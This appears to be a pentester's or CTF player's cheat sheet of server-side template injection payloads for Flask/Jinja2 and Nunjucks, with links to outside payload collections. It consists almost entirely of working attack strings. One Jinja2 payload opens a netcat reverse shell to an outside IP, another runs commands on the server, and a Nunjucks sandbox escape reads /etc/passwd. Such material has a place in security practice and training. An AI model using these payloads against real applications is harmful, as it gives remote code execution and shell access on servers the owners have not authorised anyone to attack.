 ## flask
https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md
remote code exec
```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.55 1337 >/tmp/f').read() }}
```

```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

## nodejs nunjacks
### worked but need to add \ before double quotes
```bash
http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
```

```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
```

